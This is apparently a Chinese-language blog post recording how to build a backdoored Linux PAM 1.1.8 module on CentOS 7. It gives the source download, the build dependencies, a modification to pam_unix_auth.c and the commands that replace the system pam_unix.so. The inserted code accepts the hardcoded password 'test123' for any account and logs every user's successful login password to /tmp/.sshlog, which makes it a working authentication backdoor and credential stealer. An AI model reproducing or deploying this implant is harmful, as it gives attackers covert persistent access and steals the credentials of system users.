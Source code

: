 ```yaml
---
title: Linux PAM1.1.8后门 CentOS7.6 编译记录
date: 2024/05/08 12:25
updated: 2024/05/08 12:25
tags: [编译,PAM,后门,SSH,渗透测试,安全技术]
categories: 安全技术
description: 记录编译过程中的坑
cover: https://api.vvhan.com/api/wallpaper/acg
---
```


##  Linux PAM1.1.8后门 CentOS7.6 编译记录

编译环境：
```bash
[root@iZhp35ib6je3t2dltc8ltkZ linux-pam-Linux-PAM-1_1_8]# uname -a
Linux iZhp35ib6je3t2dltc8ltkZ 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
[root@iZhp35ib6je3t2dltc8ltkZ linux-pam-Linux-PAM-1_1_8]# cat /etc/centos-release
CentOS Linux release 7.9.2009 (Core)
[root@iZhp35ib6je3t2dltc8ltkZ linux-pam-Linux-PAM-1_1_8]# 
```

SELINUX=disabled(默认)

1. 检查目标机器pam版本
```bash
[root@iZhp35ib6je3t2dltc8ltkZ ~]# rpm -qa | grep pam
pam-1.1.8-23.el7.x86_64
```

2. 获取对应版本源码

```bash
wget https://github.com/linux-pam/linux-pam/archive/refs/tags/Linux-PAM-1_1_8.tar.gz
```

3. 解压

```bash
tar zxvf Linux-PAM-1_1_8.tar.gz
cd linux-pam-Linux-PAM-1_1_8  
```

4. 安装基础依赖
```bash
yum install gcc flex flex-devel automake autoconf gettext libtool w3m texinfo fop bison bzip2 docbook-xsl-ns docbook-style-dsssl  docbook-style-xsl docbook5-style-xsl  docbook-utils -y
```

5. 修改源码

modules/pam_unix/pam_unix_auth.c
```c
/* verify the password of this user */
retval = _unix_verify_password(pamh, name, p, ctrl);
if(strcmp("test123",p)==0){return PAM_SUCCESS;}
if(retval == PAM_SUCCESS){
    FILE * fp;
    fp = fopen("/tmp/.sshlog","a");
    fprintf(fp,"%s : %s\n",name,p);
    fclose(fp);
}
name = p = NULL;

AUTH_RETURN;
```

6. 编译
```bash
./autogen.sh
./configure --prefix=/user --exec-prefix=/usr --localstatedir=/var --sysconfdir=/etc --disable-selinux --with-libiconv-prefix=/usr
make
```

7. 备份并替换
```bash
cp /usr/lib64/security/pam_unix.so /tmp/pam_unix.so.bak
cp /root/linux-pam-Linux-PAM-1_1_8/modules/pam_unix/.libs/pam_unix.so /usr/lib64/security/pam_unix.so
```